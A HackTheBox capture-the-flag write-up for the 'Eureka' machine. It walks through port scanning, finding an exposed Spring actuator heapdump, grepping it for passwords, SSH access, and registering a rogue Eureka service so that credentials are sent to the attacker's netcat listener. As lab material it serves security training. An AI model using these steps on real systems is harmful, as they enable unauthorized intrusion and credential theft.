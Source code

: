 # Eureka HTB Writeup - HackTheBox - LazyHackers

**Difficulty:** Hard\
**OS:** Linux\

------------------------------------------------------------------------

## Reconnaissance

First, set the target IP as an environment variable for convenience:

``` bash
export IP='10.10.11.66'
```

Run a full TCP scan with service and version detection:

``` bash
nmap -v -sCTV -p- -T4 -Pn -oN $IP.txt $IP
```

**Nmap Results:**

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12
    80/tcp   open  http    nginx 1.18.0 (Ubuntu)
    8761/tcp open  http    Apache Tomcat (language: en)

Port **80** redirects to `http://furni.htb/`, so we add it to
`/etc/hosts`:

``` bash
echo "$IP furni.htb" | sudo tee -a /etc/hosts
```

------------------------------------------------------------------------

## Web Enumeration

Brute-force directories on the web server with `dirsearch`:

``` bash
dirsearch -u http://furni.htb/ -e php,html,txt -t 50
```

**Discovered Endpoints:**

    /actuator/env
    /actuator/features
    /actuator/health
    /actuator/info
    /actuator/metrics
    /actuator/configprops
    /actuator/beans
    /actuator/threaddump
    /actuator/loggers
    /actuator/mappings
    /actuator/heapdump   ←  Interesting!

------------------------------------------------------------------------

## Heapdump Extraction

Download the heapdump:

    http://furni.htb/actuator/heapdump

Analyze with `strings`:

``` bash
strings heapdump | grep "password="
```

**Credentials Found:**

    {password=********, user=********}

Another one found with:

``` bash
strings heapdump | grep PWD
```

    http://EurekaSrvr:**************@localhost:8761/eureka

------------------------------------------------------------------------

## Initial Foothold

Login via SSH with the extracted credentials:

``` bash
ssh user@10.10.11.66
Password: ********
```

We now have access as a low-privileged user.

------------------------------------------------------------------------

## Port Forwarding

Since port `8761` is local, forward it to our machine:

``` bash
ssh -L 8761:localhost:8761 user@10.10.11.66
```

Now access the Eureka admin panel:

    http://localhost:8761

------------------------------------------------------------------------

## Exploiting Eureka with Malicious Registration

Set up a netcat listener to catch incoming connections:

``` bash
nc -lvnp 8081
```

Register a **malicious service** with the stolen credentials:

``` bash
curl -X POST http://USERNAME:PASSWORD@127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE   -H 'Content-Type: application/json'   -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "YOURIP",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "YOURIP",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```

Replace **USERNAME**, **PASSWORD**, and **YOURIP** (your `tun0` IP).

After \~2 minutes, new credentials arrive via netcat:

    Username: ********
    Password: ********

------------------------------------------------------------------------

## Privilege Escalation

Login with the new user:

``` bash
ssh newuser@10.10.11.66
Password: ********
```

Now we have higher privileges. Retrieve the user flag:

``` bash
cat ~/user.txt
```

------------------------------------------------------------------------

## 🏁 Summary

-    Found hidden endpoints with Dirsearch\
-    Extracted credentials from heapdump\
-    Accessed Eureka dashboard via port forwarding\
-    Exploited service registration to gain credentials\
-    Escalated privileges and obtained user flag

------------------------------------------------------------------------

